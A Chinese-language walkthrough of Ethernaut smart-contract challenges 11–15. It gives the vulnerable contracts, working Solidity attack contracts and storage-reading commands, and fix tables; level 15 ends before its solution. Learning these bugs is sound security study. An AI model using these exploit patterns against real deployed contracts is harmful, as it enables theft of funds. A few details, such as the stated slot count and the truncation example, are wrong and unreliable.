# Ethernaut_WP（11-15）-先知社区

> **来源**: https://xz.aliyun.com/news/17902  
> **文章ID**: 17902

---

# Ethernaut\_WP（11-15）

## 第11关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

分析代码，该合约实现了一个接口，定义了一个函数isLastFloor，接口中的函数没有实现，仅定义了其签名。isLastFloor接受一个uint256参数，用来表示某一层是否是最后一层。

合约分析

```
contract Elevator {
    bool public top; //定义一个布尔变量，表示是否到达顶部
    uint256 public floor; //表示当前楼层

    //传入要去的楼层_floor
    function goTo(uint256 _floor) public {
        
        //把调用合约的地址（msg.sender）转换为 Building 接口类型。也就是说，这里期望 msg.sender 是一个实现了 Building 接口的合约。这里是攻击者攻击的入口点。
        Building building = Building(msg.sender);

        //判断是不是最后一层
        if (!building.isLastFloor(_floor)) {
            floor = _floor; //设置成当前楼层
            top = building.isLastFloor(floor); //再次调用isLastFloor确认是否是顶部，并更新状态变量top，这里也是此关漏洞的关键点之一。
        }
    }
}
```

这关是一个典型的**多次外部调用引发逻辑不一致**问题

什么是**多次外部调用引发逻辑不一致**，就是一个合约（比如 Elevator）在一次执行过程中，**多次调用另一个合约（通过接口）的方法**，但这两个调用之间的返回值不同，从而导致主合约的内部状态逻辑出现“伪”一致问题。

拿这个题写一个流程图吧 ，帮助理解



然后，思路清晰了，接下来直接写攻击代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Elevator {
    function goTo(uint256 _floor) external;
}

contract Attack {
    Elevator public elevator;
    bool public frist=true;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function isLastFloor(uint256 _floor) external returns (bool) {
        if(frist){
            frist=false;
            return false;
        } else {
            return true;
        }
    }

    function attack() public {
        elevator.goTo(2);  //这里随便几楼都行
    }
}
```



攻击成功

#### **多次外部调用引发逻辑不一致**可能出现的情况

|  |  |
| --- | --- |
| **场景** | **描述** |
| 1. 多次外部调用同一方法 | 合约逻辑中多次调用外部合约的函数，假设结果一致。 |
| 2. 对 msg.sender 使用接口调用 | 外部合约由用户控制，可能恶意修改返回值。 |
| 3. 没有缓存外部返回值 | 不缓存第一次返回的值，直接再次调用导致逻辑偏差。 |
| 4. 状态依赖调用顺序 | 状态变量随外部返回值修改，后续调用依赖前一次结果。 |

#### 修复

|  |  |
| --- | --- |
| **方法** | **描述** |
| 缓存第一次返回值 | 把第一次调用的结果存储在本地变量中，后续使用缓存。 |
| 限制外部调用次数 | 避免一个逻辑流程中对外合约调用多次。 |
| 检查接口返回值一致性 | 多调用时手动检查值是否一致（并 revert） |
| 使用 trusted source | 避免依赖用户传入的地址做接口调用。 |

## 第12关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```

分析代码

```
bool public locked = true;  
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;
```

定义了一堆状态变量，不过与我们通关有关的就只是data了，但是data是私有的，那就又涉及到了区块链的变量存储的结构了，在第8关中有提到过，不是很详细，这回又遇到了，解释的详细一点吧，这边讲状态变量存储和动态变量存储，建议阅读[What is Smart Contract Storage Layout? (alchemy.com)](https://docs.alchemy.com/docs/smart-contract-storage-layout)

**Storage 是一个 2⁵²⁵ 个槽位的“键值映射表”，每个槽位是 32 字节。**

合约中所有的 state 变量（比如 bool, uint, mapping, array 等）都会被按顺序或规则映射到这些槽位中。

## How are state variables padded and packed in smart contract storage slots? 状态变量如何填充和打包到智能合约存储槽中？

**To store variables that require less than 32 bytes of memory in storage, the EVM will pad the values with 0s until all 32 bytes of the slot are used and then store the padded value.****为了存储需要少于 32 字节内存的变量，EVM 将用 0 填充值，直到插槽的所有 32 字节都用完，然后存储填充的值。**

拿个合约做个调试



可以看到a和b被分到了同一个槽内，因为a和b都只占了1byte，但是c直接占满了，所以c就是单独在一个新槽里。

## 动态大小的状态变量如何存储在智能合约内存中？

**动态大小的状态变量的分配槽方式与静态大小的状态变量相同，但分配给动态状态变量的槽只是标记槽。** 也就是说，槽标记存在动态数组或映射的事实，但槽不存储变量的数据。

对于[动态大小的变量](https://www.alchemy.com/overviews/solidity-arrays)，为什么其数据不直接存储在其分配的槽中，就像它对静态大小的变量的工作方式一样？

因为如果向变量添加新项目，它将需要更多的 slot 来存储其数据，这意味着后续的 state 变量将不得不被下推到更多的 slots。

通过使用标记槽的 **keccak256 哈希**值，我们可以利用巨大的虚拟存储区域来存储变量，而不会有动态大小的变量增长并与其他状态变量重叠的风险。

对于动态大小的数组，标记槽还存储数组的长度。标记槽号的 keccak256 哈希值是一个 “指针” ，指向数组值在合约存储布局中的位置。

但是Remix 自带 Debugger 看不到这些哈希槽，但可以通过「Storage」手动查槽，~~懒得查了~~

而这个挑战是固定长度数组bytes32[3]，一个就是32个byte，那就是一个就占一个槽

```
占一个槽    bool public locked = true;  
正好32位占一个槽    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    上面三个一共占一个槽，因为不足32bytes
    bytes32[3] private data; 数组内元素各占一个槽
    那就是
    0 locked
    1 ID
    2 flattening,denomination,awkwardness
    3 bytes32[1]
    4 bytes32[2]
    5 bytes32[3]
```

那么当前Storage的存储就是下面这个情况了

```
{
    "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000000",
        "value": "0x0000000000000000000000000000000000000000000000000000000000000001"
    },
    "0xb10e2d527612073b26eecdfd717e6a320cf44b4afac2b0732d9fcbe2b7fa0cf6": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000001",
        "value": "0x000000000000000000000000000000000000000000000000000000006808f7f5"
    },
    "0x405787fa12a823e0f2b7631cc41b3ba8828b3321ca811111fa75cd3aa3bb5ace": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000002",
        "value": "0x00000000000000000000000000000000000000000000000000000000f7f5ff0a"
    },
    "0xc2575a0e9e593c00f959f8c92f12db2869c3395a3b0502d05e2516446f71f85b": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000003",
        "value": "0x616c706861000000000000000000000000000000000000000000000000000000"
    },
    "0x8a35acfbc15ff81a39ae7d344fd709f28e8600b4aa8c65c6b64bfe7fe36bd19b": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000004",
        "value": "0x6265746100000000000000000000000000000000000000000000000000000000"
    },
    "0x036b6384b5eca791c62761152d0c79bb0604c104a5fb6f4eb0703f3154bb3db0": {
        "key": "0x0000000000000000000000000000000000000000000000000000000000000005",
        "value": "0x67616d6d61000000000000000000000000000000000000000000000000000000"
    }
}
```

有个判断条件require(\_key == bytes16(data[2]));，我们就会发现，原先不是bytes32吗，怎么变成了bytes16，这里是一个由大向下转的一个操作，在bytes32变量中，我们有这样一个值0x66a80b61b29ec044d14c4c8c613e762ba1fb8eeb0c454d1ee00ed6dedaa5b5c5。如果我们把这个值放到bytes16时，新的值将是0x66a80b61b29ec044d14c8c613e762b。当从一个较小的类型转换到一个较大的类型时，没有什么问题。所有的高位都被填充为零，值不会改变。问题是当你把一个较大的类型转换到一个较小的类型时。根据数值的不同，你可能会遇到数据丢失的情况，因为这些高位被丢失和截断了。

那接下来就很简单了

我部署时传入的是

```
web3.utils.fromAscii("alpha")
web3.utils.fromAscii("beta")
web3.utils.fromAscii("gamma")

["0x616c706861000000000000000000000000000000000000000000000000000000", "0x6265746100000000000000000000000000000000000000000000000000000000", "0x67616d6d61000000000000000000000000000000000000000000000000000000"]
```

因为我是在Remix中部署的，所以前面不需要用await

```
web3.eth.getStorageAt("合约地址", 3).then(console.log)
web3.eth.getStorageAt("合约地址", 4).then(console.log)
web3.eth.getStorageAt("合约地址", 5).then(console.log)
```

而此时的比较用的是slot=4的数据



折半传进去就行

#### 修复方法(与第8关一样)

1. **不要将敏感信息保存在链上**（哪怕是 private 也没用）。
2. **使用加密/哈希验证**，例如将 bytes16 的哈希保存，而不是明文。

## 第13关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        require(gasleft() % 8191 == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

分析合约代码

定义了三个[函数修改器modifiers](https://learnblockchain.cn/docs/solidity/contracts.html#modifiers)，gateOne()，gateTwo()，gateThree()

```
modifier gateOne() {
        require(msg.sender != tx.origin); //函数调用者不能是最初发送交易的人
        _;
    }
```

了解一下[gasleft()](https://learnblockchain.cn/docs/solidity/units-and-global-variables.html)函数，solidity官方文档有如下描述

* gasleft() returns (uint256)：剩余 gas

```
modifier gateTwo() {
        require(gasleft() % 8191 == 0); //剩余gas需要是8191的倍数
        _;
    }
```

gateThree()又是高向低转，推荐阅读

* [Solidity 文档：基本类型之间的转换](https://learnblockchain.cn/docs/solidity/types.html#types-conversion-elementary-types)
* [Solidity 文档：常量数字和基本类型之间的转换](https://learnblockchain.cn/docs/solidity/types.html#types-conversion-literals)

```
modifier gateThree(bytes8 _gateKey) {
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one"); //从64到32，从64转到16，还是老规矩，舍掉高位
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two"); 
        require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three"); 
        _;
    }
```

而成为新的合约所有者，就需要同时满足上面的三个gate

接下来就是逐个解决了

看第一个require(msg.sender != tx.origin);

当交易由EOA （外部账号）发起时，它直接与智能合约交互，这两个变量将具有相同的值。但是，如果它与一个中间人合约A交互，然后通过直接（call）调用（不是delegatecall）另一个合约B，在 B 合约里这些值将是不同的，在这种情况下。

* msg.sender将是A合约的地址
* tx.origin将是EOA地址地址。

可以查阅我的第五关，有做演示

第二个，require(gasleft() % 8191 == 0);，要计算gas，可以看一下[以太坊黄皮书](https://github.com/yuange1024/ethereum_yellowpaper/blob/master/ethereum_yellow_paper_cn.pdf)（附录 H）的算术运算及其当前的 gas 成本,~~但是。。。（bushi，真的会有人去算吗，光看那黄皮书就够头疼了~~

Complex transactions (like contract creation) costs more than easier transactions (like sending someone some Ethers). Storing data to the blockchain costs more than reading the data, and reading constant variables [costs less](https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6) than reading storage values.复杂的交易（如创建合约）比简单的交易（如向某人发送一些以太币）成本更高。将数据存储到区块链的成本高于读取数据的成本，读取常量变量[的成本](https://medium.com/coinmonks/ethernaut-lvl-12-privacy-walkthrough-how-ethereum-optimizes-storage-to-save-space-and-be-less-c9b01ec6adb6)低于读取存储值的成本。

虽然也可以用Remix调试来调出来，但是还是太麻烦，常见做法如下，

用一个循环从 0~300 之间偏移量，尝试找出一个 gasleft() % 8191 == 0 的值。例如：

```
for (uint256 i = 0; i < 300; i++) {
    (bool success, ) = target.call{gas: i + 8191 * 3}(
        abi.encodeWithSignature("enter(bytes8)", gateKey)
    );
    if (success) {
        break;
    }
}
```

为什么是 8191 \* 3 起步？

* 因为在 Remix 或硬编码中，实际执行消耗了一堆 gas，而我们不知道起点是多少。
* 所以先以 8191 \* n 为大致基准点，再通过小范围遍历 + i 来精调。

|  |  |
| --- | --- |
| **项** | **理由** |
| 8191 \* 3 | 预留足够 gas 跑完整个调用链 |
| + i | 精确调整 gas，命中 % 8191 == 0 条件 |
| 遍历 i | 因为 gas 消耗每次略有不同，只能试出合适的值，遍历的范围可以稍微大一点，就像我用了3000 |

第三个就是过掉那几个转换就行了，可以直接用我们的EOA地址类推出来



也可以用代码，直接取到tx.orgin进行取uint16，然后转到uint64，再加上2\*\*32，保证前32不为0

```
function generateGateKey() internal view returns (bytes8) {
        uint16 origin16 = uint16(uint160(tx.origin)); // 取地址最后两个字节
        uint64 gateKey = uint64(uint32(origin16)) + 2**32; // 加上高位不为0
        return bytes8(gateKey);
    }
```

哦呼，接下来就是攻击脚本

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperOne {
    function enter(bytes8 _gateKey) external returns (bool);
}

contract GatekeeperOneAttack {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function generateGateKey() internal view returns (bytes8) {
        uint16 origin16 = uint16(uint160(tx.origin)); // 取地址最后两个字节
        uint64 gateKey = uint64(uint32(origin16)) + 2**32; // 加上高位不为0
        return bytes8(gateKey);
    }

    function attack() public {
        bytes8 gateKey = generateGateKey();

        // 尝试 gas 的不同偏移量
        for (uint256 i = 0; i < 3000; i++) {
            (bool success, ) = target.call{gas: 8191 * 4 + i}(abi.encodeWithSignature("enter(bytes8)", gateKey)); //稍微省一点点事
            if (success) {
                break;
            }
        }
    }
}
```



#### 修复

|  |  |
| --- | --- |
| **问题** | **修复建议** |
| gateOne 可被合约绕过 | 使用授权逻辑替代，仅限制合约不够 |
| gateTwo 易被穷举 gas 绕过 | 删除 gas 相关的限制逻辑，尽量不要用gasleft() |
| gateThree 位操作不安全 | 替换为明确的身份验证逻辑，要尽量避免由大到小的转变。 |

## 第14关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperTwo {
    address public entrant;

    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    modifier gateTwo() {
        uint256 x;
        assembly {
            x := extcodesize(caller())
        }
        require(x == 0);
        _;
    }

    modifier gateThree(bytes8 _gateKey) {
        require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
        _;
    }

    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}
```

分析代码，跟上一关有点像，仍然是三个修改器，第一个和上一关一样，第二个是写了一个[assembly](https://learnblockchain.cn/docs/solidity/assembly.html)内联汇编，推荐拓展阅读[Solidity 中编写内联汇编(assembly)的那些事](https://learnblockchain.cn/article/675)。

关于内联汇编，Solidity官方文档解释如下：

你可以将 Solidity 语句与接近以太坊虚拟机语言的内联汇编交错使用。这为你提供了更细粒度的控制，特别是在通过编写库或优化 gas 使用来增强语言时非常有用。

Solidity 中用于内联汇编的语言称为 [Yul](https://learnblockchain.cn/docs/solidity/yul.html#yul)，并在其自己的部分中进行了文档说明。本节将仅涵盖内联汇编代码如何与周围的 Solidity 代码接口。

内联汇编是一种以低级别访问以太坊虚拟机的方法。这绕过了 Solidity 的几个重要安全特性和检查。 你应该仅在需要时使用它，并且只有在你对使用它有信心的情况下。

内联汇编块由 assembly { ... } 标记，其中大括号内的代码是 [Yul](https://learnblockchain.cn/docs/solidity/yul.html#yul) 语言的代码。

内联汇编代码可以访问本地 Solidity 变量，如下所述。

不同的内联汇编块不共享命名空间，即无法调用在不同内联汇编块中定义的 Yul 函数或访问 Yul 变量。

可重用的汇编库可以在不更改编译器的情况下增强 Solidity 语言。

你可以通过使用其名称访问 Solidity 变量和其他标识符。

值类型的本地变量可以直接在内联汇编中使用。它们可以被读取和赋值。

extcodesize调用将获得给定地址的合约代码大小 ，用 assembly 读取 caller()（也就是 msg.sender）地址上的代码大小 extcodesize。要求 x == 0，即调用者地址上当前**没有代码**。-- 你可以在[黄皮书](https://github.com/yuange1024/ethereum_yellowpaper/blob/master/ethereum_yellow_paper_cn.pdf)的第7节中了解更多关于它的信息。

而在部署合约时，在构造函数中，地址已经被分配但代码尚未存储，所以在构造函数里调用这个合约时 extcodesize == 0。我说白了，就是你需要在**构造函数中**调用 enter() 才能通过这道门。

第三个也跟上差不多就是用了个异或。msg.sender（合约地址）经过 keccak256 哈希，再取前 8 字节并转换成 uint64，和传入的 \_gateKey 异或后，结果必须是 0xFFFFFFFFFFFFFFFF，即 type(uint64).max。我们需要计算出 \_gateKey，让它和 keccak256(msg.sender) 的前 8 字节异或结果为全 1。

学过数学的都知道，如果a^b=c，那么a^c=b。那我们直接uint64(bytes8(keccak256(abi.encodePacked(msg.sender))))^type(uint64).max)不就等于uint64(\_gateKey)了。

ok，思路已经明了，上代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IGatekeeperTwo {
    function enter(bytes8 _gateKey) external returns (bool);
}
contract Attack {
    constructor(address gatekeepertwo) {
        IGatekeeperTwo gatekeeper = IGatekeeperTwo(gatekeepertwo);

        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(type(uint64).max));

        gatekeeper.enter(key);
    } 
}
```



拿下，~~这个比上一关更好利用一些，因为不用尝试gas~~。

#### 修复

|  |  |  |
| --- | --- | --- |
| **门** | **问题** | **修复建议** |
| gateOne | 无漏洞，仅行为约束 | 可保留或移除 |
| gateTwo | 可被构造函数绕过 | 改为 msg.sender.code.length > 0 检查 |
| gateThree | gateKey 可反推 | 加入动态元素如 block.timestamp、salt 或封装逻辑 |

## 第15关

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

我们需要知道ERC20代币的EIP（以太坊 Improvement Proposal）是如何运作的，以及OpenZeppelin是如何实现它的（该合约使用OpenZeppelin框架库），推荐先阅读一下面的文章：

* [ERC20标准](https://github.com/ethereum/EIPs/blob/master/EIPS/eip-20.md)
* [以太坊 EIP-20](https://eips.ethereum.org/EIPS/eip-20)
* [OpenZeppelin仓库](https://github.com/OpenZeppelin/zeppelin-solidity/tree/master/contracts)
* [OpenZeppelin ERC20文件](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)
* [OpenZeppelin ERC20实现](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol)

#### transfer

Transfers \_value amount of tokens to address \_to, and MUST fire the Transfer event. The function SHOULD throw if the message caller’s account balance does not have enough tokens to spend.将 \_value 数量的令牌转移到 address \_to，并且必须触发 Transfer 事件。如果消息调用者的账户余额没有足够的代币可供花费，则函数应该抛出。

*Note* Transfers of 0 values MUST be treated as normal transfers and fire the Transfer event.*注意*值为 0 的传输必须被视为正常传输，并触发 Transfer 事件。

function transfer(address \_to, uint256 \_value) public returns (bool success)

#### transferFrom

Transfers \_value amount of tokens from address \_from to address \_to, and MUST fire the Transfer event.将 \_value 数量的代币从地址 \_from 转移到地址 \_to，并且必须触发 Transfer 事件。

The transferFrom method is used for a withdraw workflow, allowing contracts to transfer tokens on your behalf. This can be used for example to allow a contract to transfer tokens on your behalf and/or to charge fees in sub-currencies. The function SHOULD throw unless the \_from account has deliberately authorized the sender of the message via some mechanism.transferFrom 方法用于提现工作流程，允许合约代表您转移代币。例如，这可用于允许合约代表您转移代币和/或以子货币收取费用。除非 \_from 账户通过某种机制故意授权了消息的发送者，否则该函数应该引发。

*Note* Transfers of 0 values MUST be treated as normal transfers and fire the Transfer event.*注意*值为 0 的传输必须被视为正常传输，并触发 Transfer 事件。

function transferFrom(address \_from, address \_to, uint256 \_value) public returns (bool success)

#### approve

Allows \_spender to withdraw from your account multiple times, up to the \_value amount. If this function is called again it overwrites the current allowance with \_value.允许 \_spender 多次从您的账户提款，最高可达 \_value 金额。如果再次调用此函数，它将用 \_value 覆盖当前限额。

**NOTE**: To prevent attack vectors like the one [described here](https://docs.google.com/document/d/1YLPtQxZu1UAvO9cZ1O2RPXBbT0mooh4DYKjA_jp-RLM/) and discussed [here](https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729), clients SHOULD make sure to create user interfaces in such a way that they set the allowance first to 0 before setting it to another value for the same spender. THOUGH The contract itself shouldn’t enforce it, to allow backwards compatibility with contracts deployed before**注意** ：为了防止像[这里描述](https://docs.google.com/document/d/1YLPtQxZu1UAvO9cZ1O2RPXBbT0mooh4DYKjA_jp-RLM/)和[讨论](https://github.com/ethereum/EIPs/issues/20#issuecomment-263524729)的攻击媒介，客户端应该确保在创建用户界面时，先将限额设置为 0，然后再为同一花费者将其设置为另一个值。尽管 Contract 本身不应该强制执行它，以允许向后兼容之前部署的 Contract

function approve(address \_spender, uint256 \_value) public returns (bool success)

分析代码，

```
constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10 ** uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
        emit Transfer(...)
    //emit 是 Solidity 中用来触发（emit）事件的关键字。
    //Transfer 是 ERC20 标准中定义的事件（event Transfer(address indexed from, address indexed to, uint256 value);），表示一次代币的转移。
    //前端 DApp 或区块浏览器（如 Etherscan）会监听这个事件来展示转账记录。
    //address(0)表示 “地址0”，也就是 0x0000000000000000000000000000000000000000。
    //在 ERC20 中，从这个地址发出代币意味着“铸造（mint）”，即新创建了代币。
    //player这是接受者地址，也就是合约部署时传入的地址，拿到全部初始供应。
    //INITIAL_SUPPLY表示此次转移的代币数量，这里是 100 万个（带 18 位小数）。
    }
```

重写了transfer

```
function transfer(address _to, uint256 _value) public override lockTokens returns (bool) {
        super.transfer(_to, _value);
    }

加上了lockTokens修饰
modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
如果没到10年后，就不让你取出来你的钱
```

但是，[OpenZeppelin ERC20文件](https://docs.openzeppelin.com/contracts/4.x/api/token/erc20)中提到了有两个转移的方式，虽然transfer没了，但是还有transferFrom啊

